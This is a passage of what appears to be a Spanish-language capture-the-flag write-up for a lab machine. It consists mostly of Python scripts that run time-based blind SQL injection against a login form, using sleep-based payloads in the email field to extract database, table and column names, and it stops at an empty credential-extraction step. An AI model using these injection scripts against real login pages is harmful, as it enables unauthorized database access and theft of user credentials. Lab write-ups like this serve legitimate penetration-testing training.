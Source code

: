 ```python
			inicio = time.time()
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2:
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Conseguimos las bases de datos **information_schema** y **admin**  
## Averiguar el nombre de las tablas de 'admin':  
```python
caracteres = string.ascii_lowercase + "_"
#caracteres = string.ascii_uppercase + string.ascii_lowercase + string.digits + string.punctuation
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
print("Nombre de tablas de 'admin': ")
print("-------------------------------")
resultado = ""
for i  in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select table_name from information_schema.tables where table_schema ='admin' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
			inicio = time.time()
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2:
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Nombre de tabla **users**  
## Averiguar el nombre de las columnas de 'admin.users':    

```python
caracteres = string.ascii_lowercase + "_"
login_url = "https://admin-portal.europacorp.htb/login.php"
headers = {'PHPSESSID': 'vfhb3ig3s0n01o9mp2arg735k0'}
resultado = ""
for i in range(10):
	for pos in range(20):
		for letra in caracteres:
			sqli = "' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit " + str(i) + ",1)," + str(pos) + ",1)='" + letra + "',sleep(2),1)-- -"
			data = { "email": "admin@europacorp.htb" + sqli, "password":"test"}
			inicio = time.time()
			req = requests.post(login_url, data=data, headers = headers, verify=False)
			final = time.time()
			if final - inicio > 2: 
				resultado += letra
				print(resultado)
				break
	resultado += ", "
```
Columnas -> **id**, **username**, **password** y **active**  
## Conseguir creds
```python
```